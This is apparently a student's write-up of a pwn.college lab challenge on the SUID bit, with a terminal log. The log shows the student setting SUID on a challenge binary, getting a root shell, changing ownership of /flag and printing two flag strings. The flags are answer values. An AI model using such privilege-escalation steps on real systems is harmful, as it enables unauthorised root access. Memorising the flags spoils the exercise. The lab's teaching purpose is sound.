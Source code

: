 # the SUID bit

## Procedure
I started the challenge and then connected my terminal<br>
and then i saw the permission of `/challengw/getroot` and then used
`chmod u+s /challenge/getroot` and then ran it , i went into SUID root,
then i used `chown root /flag` and then used `cat /flag` to got the flag.

## bash
`Connected!
hacker@permissions~the-suid-bit:~$ ls -l /challenge/getroot
-rwxr-xr-x 1 root root 155 Jul 12 10:30 /challenge/getroot
hacker@permissions~the-suid-bit:~$ chmod u+s /challenge/getroot
hacker@permissions~the-suid-bit:~$ /challenge/getroot
SUCCESS! You have set the suid bit on this program, and it is running as root!
Here is your shell...
root@permissions~the-suid-bit:~# cat flag
pwn.college{EZ_d7zdmFqjaCRqB5o2qGsrGLN2.dFzN1QDLyIDO0czW}
root@permissions~the-suid-bit:~# ls
COLLEGE  a     instructions  myflag        out
PWN      flag  myfile        not-the-flag  the-flag
root@permissions~the-suid-bit:~# ls -l
total 36
-rw-r--r-- 1 hacker hacker   4 Oct  8 04:57 COLLEGE
-rw-r--r-- 1 hacker hacker   8 Oct  8 17:24 PWN
-rw-r--r-- 1 root   hacker  58 Oct  2 17:53 a
-rw-r--r-- 1 root   hacker  58 Oct  4 12:11 flag
-rw-r--r-- 1 hacker hacker 829 Oct  8 05:29 instructions
-rw-r--r-- 1 hacker hacker  22 Oct  8 05:07 myfile
-rw-r--r-- 1 hacker hacker  93 Oct  8 05:29 myflag
lrwxrwxrwx 1 hacker hacker   5 Oct  5 15:23 not-the-flag -> /flag
-rw-r--r-- 1 root   hacker  77 Oct  8 18:56 out
-rw-r--r-- 1 hacker hacker 435 Oct  8 05:15 the-flag
root@permissions~the-suid-bit:~# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@permissions~the-suid-bit:~# chown root /flag
root@permissions~the-suid-bit:~# cat /flag
pwn.college{44eyMYEAT92s9r4nsIGmi_4Eov9.dNTM2QDLyIDO0czW}`

## Reference
Didnt use
